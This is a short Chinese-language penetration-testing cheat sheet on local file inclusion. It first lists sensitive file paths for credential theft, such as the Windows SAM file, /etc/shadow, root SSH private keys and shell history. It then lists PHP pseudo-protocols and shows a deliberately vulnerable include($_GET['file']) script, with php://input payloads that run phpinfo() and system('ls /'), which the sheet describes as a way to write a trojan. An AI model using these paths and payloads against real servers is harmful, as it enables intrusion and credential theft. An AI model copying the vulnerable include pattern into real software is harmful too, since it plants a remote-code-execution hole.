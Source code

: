 ## 敏感文件位置

Windows

```txt
C:\boot.ini  # 查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml  # IIS配置文件
C:\Windows\repair\sam  # 存储系统初次安装的密码
C:\Program Files\mysql\my.ini  # Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD  # mysql root
C:\Windows\php.ini  # php配置信息
C:\Windows\my.ini  # mysql配置信息
```

Linux

```txt
/root/ .ssh/authorized_keys
/root/ .ssh/id_rsa
/root/ .ssh/id_ras.keystore
/root/ .ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/my.cnf
/etc/httpd/conf/httpd.conf
/root/ .bash_history
/root/ .mysql_history
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/porc/config.gz
```

## PHP伪协议

- php:// 协议
  - php://input     # 用于执行php代码
  - php://filter    # 常用于读取php文件的源码
- data:// 协议
- file:// 协议
- zip://、bzip2://、zlib://协议
  - zip://协议
  - bzip2://协议
  - zlib://协议
- phar://伪协议

### PHP伪协议案例

- php://input 执行php代码与写入木马

`allow_url_include: on`

测试代码

```php
<?php
    include($_GET['file']);
?>

payload:
http://192.168.1.103/test.php?file=php://input

[POST]:
<?php phpinfo(); ?>

[POST]:
<?php system('ls /'); ?>

```
